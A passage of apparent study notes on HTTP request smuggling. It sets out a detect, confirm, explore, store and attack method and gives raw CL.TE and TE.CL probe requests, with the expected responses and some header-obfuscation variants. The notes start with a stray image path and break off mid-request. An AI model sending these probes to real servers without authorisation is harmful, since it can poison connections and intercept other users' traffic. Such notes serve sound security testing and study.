 Transfer-Encoding:[tab]chunked
```

```
X: X[\n]Transfer-Encoding: chunked
```

Method
Detect -> Confirm -> Explore -> Store | Attack


Detecting desync

Timing in sending a pair is key live testing with other users present may interrupt our desynchronisation

Try this one first
CL.CL: backend response
TE.TE: frontend response
TE.CL: frontend response
CL.TE: timeout

```
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

3
abc
```
```
Q
```
Or you may poison the socket

CL.CL: backend response
TE.TE: backend response
TE.CL: timeout 
CL.TE: socket poison

```
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

0
```
```
x
```

Every end point as the request maybe routed to different backend servers.

There are false positives, less likely there are false negatives

Confirming desync

```
POST /search HTTP/1.1
Content-Length: 51
Transfer-Encoding: zchunked
